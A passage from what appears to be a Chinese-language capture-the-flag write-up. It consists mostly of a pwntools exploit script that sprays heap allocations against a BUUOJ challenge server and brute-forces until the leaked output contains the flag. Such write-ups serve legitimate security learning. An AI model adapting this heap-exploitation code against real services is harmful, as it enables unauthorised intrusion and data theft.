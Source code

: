 那么我们只需要不断尝试分配到一个存在 flag 的堆块后打印即可

构造exp如下：

```
from pwn import *
global p

def cmd(command:int):
    p.recvuntil(b"choice:")
    p.sendline(command * b'a')

def new(size:int):
    cmd(0)
    p.recvuntil(b"size:")
    p.sendline(str(size).encode())

def free(index:int):
    cmd(2)
    p.recvuntil(b"index:")
    p.sendline(str(index).encode())

def edit(index:int, content):
    cmd(3)
    p.recvuntil(b"index:")
    p.sendline(str(index).encode())
    p.recvuntil(b"Content:")
    p.send(content)

def exp(hit):
    for i in range(3):
        new(0x10)
    new(0x300 + hit * 0x10)
    edit(3, 'arttnba3arttnba4')
    p.recvuntil('choice:')
    p.shutdown_raw('send')
    s = p.recv()
    log.info(s)
    if b'{' in s or b'}' in s:
        exit()

if __name__ == '__main__':
    i = 0
    count = 0
    while True:
        try:
            print('try time: ' + str(count))
            print('try: ' + str(i) + ' now')
            p = remote("node4.buuoj.cn",39123)
            exp(i)
            p.close()
            i += 1
            i %= 0x20
            count += 1
        except Exception as e:
            log.failure('exception!')
            p.close()
            i += 1
            i %= 0x20
            count += 1 
```
